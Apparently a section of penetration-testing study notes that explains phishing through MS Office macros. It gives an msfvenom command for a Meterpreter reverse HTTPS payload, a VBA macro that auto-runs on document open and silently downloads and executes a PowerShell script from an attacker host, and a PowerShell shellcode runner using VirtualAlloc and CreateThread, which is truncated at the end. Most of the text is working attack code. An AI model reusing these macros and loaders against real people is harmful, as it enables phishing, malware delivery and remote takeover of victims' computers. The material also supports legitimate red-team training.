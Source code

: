 **1.2.1.3 Phishing With MS Office - PowerShell Shellcode Runner (Method 1- In-Memory using Add-Type)**
1. Create the payload using `msfvenom` and copy it to the script `run.ps1` below:
    ```bash
    sudo msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
    ```
2. Host the script on the attack machine as `run.ps1` and use `DownloadString` in the VBA script to execute it on the victim machine.
    - **VBA Code** - This will help download and execute the PowerShell script using VBA.
        ```vb
        Sub Document_Open()
            MyMacro
        End Sub

        Sub AutoOpen()
            MyMacro
        End Sub

        Sub MyMacro()
            Dim str As String
            str = "powershell (New-Object System.Net.WebClient).DownloadString('https://192.168.x.x/run.ps1') | IEX"
            Shell str, vbHide
        End Sub
        ```
    - **run.ps1** - hosted on the attacker machine
        ```ps
        $Kernel32 = @"
        using System;
        using System.Runtime.InteropServices;

        public class Kernel32 {
            [DllImport("kernel32")]
            public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
                
            [DllImport("kernel32", CharSet=CharSet.Ansi)]
            public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
                    
            [DllImport("kernel32.dll", SetLastError=true)]
            public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
        }
        "@

        Add-Type $Kernel32

        # Byte[] $buf ..  generate shellcode using msfvenom

        [Byte[]] $buf = 0xfc,0xe8,0x8f,...

        $size = $buf.Length

        [IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
        [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
        $thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
